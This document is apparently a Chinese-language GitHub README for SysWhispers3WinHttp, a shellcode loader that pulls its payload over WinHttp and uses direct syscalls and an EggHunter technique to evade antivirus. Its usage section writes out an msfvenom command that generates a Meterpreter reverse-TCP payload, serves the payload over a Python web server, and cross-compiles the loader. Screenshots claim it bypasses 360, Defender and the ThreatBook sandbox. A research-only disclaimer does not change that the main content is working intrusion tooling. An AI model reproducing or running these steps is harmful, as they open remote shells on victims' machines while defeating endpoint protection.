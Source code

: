 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，在Linux下使用GCC进行交叉编译。

## 0x00 免责声明

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志

2024/06/21 增添MinGW下EggHunter技术，绕过对syscall指令的静态检测。

2023/07/03 支持64位程序在Windows 7 x64上线。

2023/06/06 支持64位GCC编译与Stager方式上线SliverC2，增添编译参数绕过静态检测。

## 0x02 使用

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=x.x.x.x lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第72行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -lpsapi

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第72行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -lpsapi
```

## 0x03 演示

360云安全计划（2024/06/21更新）
![360云安全计划](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/a777d104-1f93-4e16-931c-0b2222c64504)

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/f02a6de4-d6db-4012-91f8-e75df30f49ab)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/33e47a93-59ba-48b1-aecb-ffb11dad66bc)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考链接
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
